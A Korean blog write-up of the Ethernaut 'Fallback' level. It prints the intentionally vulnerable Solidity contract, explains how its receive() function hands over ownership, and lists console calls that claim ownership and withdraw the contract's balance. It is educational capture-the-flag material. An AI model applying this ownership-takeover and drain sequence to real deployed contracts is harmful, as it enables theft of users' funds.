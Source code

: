 +++
title = "Fallback"
description = "Ethernaut: Fallback"
date = 2023-03-22

[taxonomies]
categories = ["Ethernaut"]
tags = ["Solidity", "fallback", "ethernaut"]

[extra]
math=true
+++

---


# 문제 설명

[[문제 링크](https://ethernaut.openzeppelin.com/level/1)]

<details>
<summary>전체 코드</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

</details>

- `Fallback` contract 는 자신에게 돈을 보낸 사람들의 정보를 기록합니다.
- 재밌는 부분은 주인보다 더 많이 <mark>contribute</mark> 하면 주인이 될 수도 있다는 점입니다.

---

- 문제를 해결하기 위한 조건은 아래 두 가지 입니다.
  - ***contract 의 주인이 될 것***
  - ***contract 가 갖고 있는 돈이 0원일 것***
- 쉽게 말해, <u>*contract 주인이 되어서 보관된 돈을 다 빼오는게*</u> 목표입니다.

---

- <mark>Hint</mark>로 아래 세 가지를 생각해 볼 것을 제안합니다.
  - *ether* 를 보내는 방법
  - *wei* 단위와 *ether* 단위로 서로 변환하는 방법
  - Fallback method

---

# 문제 분석

- 코드를 자세히 살펴보겠습니다.
- 우선 contract 가 생성될 때 한번 호출되는 <mark>constructor()</mark> 함수가 아래와 같습니다.

```solidity
constructor() {
  owner = msg.sender;
  contributions[msg.sender] = 1000 * (1 ether);
}
```

- 그리고, <mark>contribute()</mark> 함수가 아래와 같습니다.

```solidity
function contribute() public payable {
  require(msg.value < 0.001 ether);
  contributions[msg.sender] += msg.value;
  if(contributions[msg.sender] > contributions[owner]) {
    owner = msg.sender;
  }
}
```

- *contribute* 는 한 번 할 때, `0.001 eth` 미만의 값만 가능합니다. 
- 주인이 되기 위해선, 현재 주인의 contribute 값인 `1000 eth` 보다 값이 높아져야 합니다.
- 따라서, <mark>contribute()</mark> 를 통해 주인이 되는 것은 (가능은 하지만) 너무 어려운 길입니다..
- 다행히 주인이 되는 방법이 한가지 더 있는데, 바로 <mark>receive()</mark> 함수를 이용하는 것입니다.
> - <mark>receive()</mark> 함수에 대한 정보는 [Docs](https://docs.soliditylang.org/en/v0.8.17/contracts.html#receive-ether-function) 참조

```solidity
receive() external payable {
  require(msg.value > 0 && contributions[msg.sender] > 0);
  owner = msg.sender;
}
```

- 아무런 function call 없이, 단순히 contract 에 돈을 보내려 하면 <mark>receive()</mark> 에 정의된 대로 동작이 일어난다고 합니다.
- 따라서, 아래와 같은 절차로 문제를 해결할 수 있음을 알 수 있습니다.
> - <mark>contribute()</mark> 로 돈을 `0.0005 eth` 보냅니다.
> - contract 로 `0.0001 eth` 를 ***그냥*** 송금하는 tx 를 보냅니다.
>   - 이 때, contract의 주인이 됩니다.
> - <mark>withdraw()</mark> 로 돈을 다 빼옵니다.

---

# 문제 풀이
- 아래 순서대로 Dev Tool의 Console 에서 입력하면 됩니다.

```js
// `0.0005 eth` 담아서 contribute 하기
contract.contribute({value: toWei("0.0005")})

// `0.0001 eth` 그냥 보내기
contract.sendTransaction({value: toWei("0.0001")})

// 돈 다 빼오기
contract.withdraw()
```

---
